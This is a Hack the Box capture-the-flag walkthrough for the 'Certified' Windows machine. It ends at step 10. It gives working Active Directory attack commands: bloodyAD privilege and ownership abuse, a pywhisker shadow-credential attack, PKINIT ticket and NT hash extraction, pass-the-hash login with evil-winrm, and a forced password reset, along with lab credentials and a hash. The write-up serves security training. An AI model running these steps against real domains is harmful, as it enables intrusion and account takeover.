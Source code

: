 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```
![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```
![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```
![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. Bloodhound shows management_svc has GenericAll privs on user ca_operator. Change ca_operator password
	```python3 /opt/bloodyAD/bloodyAD.py --dc-ip 10.129.131.108 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password ca_operator P@ssw0rd```





 
